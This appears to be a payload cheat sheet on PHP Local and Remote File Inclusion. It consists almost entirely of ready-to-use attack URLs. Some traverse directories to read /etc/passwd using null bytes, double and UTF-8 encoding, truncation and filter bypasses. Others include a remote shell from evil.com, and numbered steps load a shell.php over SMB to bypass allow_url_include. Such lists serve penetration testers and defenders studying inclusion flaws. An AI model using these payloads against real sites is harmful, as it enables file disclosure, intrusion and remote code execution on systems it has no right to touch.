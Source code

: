 ## Local File Inclusion
### Filename Prefix
If the following code is used to handle parameters:
```php
include("lang_" . $_GET['language']);
```
Then, if we try to traverse the directory with `../../../etc/passwd`, the final string would be `lang_../../../etc/passwd`, which is invalid.
so, instead of directly using path traversal, we can prefix a `/` before our payload, and this should consider the prefix as a directory.
```txt
http://example.com/index.php?language=/../../../../etc/passwd
```
### Null byte
```txt
http://example.com/index.php?page=../../../etc/passwd%00
```
### Double encoding
```txt
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
```
```txt
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
### UTF-8 encoding
```txt
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```
```txt
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```
### Path and dot truncation
On most PHP installations a filename longer than `4096` bytes will be cut off so any excess chars will be thrown away.
```txt
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
```
```txt
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
```
```txt
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
```
```txt
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```
### Filter bypass tricks
```txt
http://example.com/index.php?page=....//....//etc/passwd
```
```txt
http://example.com/index.php?page=..///////..////..//////etc/passwd
```
```txt
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
### Using Base64
[One LFI bypass to rule them all (using base64)](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/)
## Remote File Inclusion
### Null byte
```txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
```
### Double encoding
```txt
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```
### Bypass `allow_url_include`
When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows target using the `smb` protocol.
1. Create a share open to everyone
2. Write a PHP code inside a file: `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`